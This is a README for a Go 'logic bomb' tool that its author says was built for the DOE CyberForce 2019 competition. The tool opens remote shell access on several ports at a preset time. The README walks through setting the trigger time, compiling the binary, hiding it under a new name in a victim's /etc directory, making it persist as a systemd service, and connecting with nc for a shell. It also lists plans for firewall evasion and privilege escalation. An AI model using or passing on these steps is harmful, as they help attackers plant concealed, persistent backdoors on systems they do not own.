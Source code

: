 # logicbomb-reverse-shell
Author: Shail Patel

Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'. 

3. Place the generated go based binary file into your desired target victim's location path of windows/Linux directory. (I usually place inside etc/ directory and rename the file.) Then execute---> './logicbomb &'. You can also bind this as a service file inside systemd manually in order to avoid using '&' while executing the file. I will post that part later. Now, wait till your preferred triggered time of epoch execution.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn an instant bash shell and you are in!
Check whoami, pwd, ls, ifconfig. Also monitor using "netstat -antlp | grep 'ncat' " if those ports are persistently open.


Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

1. Work more on a user based privilege escalation technique.
2. Find a way to punch a hole through firewall in order to avoid instant blocking of the ports, if any.
3. Find an alternative way to regenerate another ports, in case gets killed by processids.

If you have any questions, please email me directly
shailp848@gmail.com

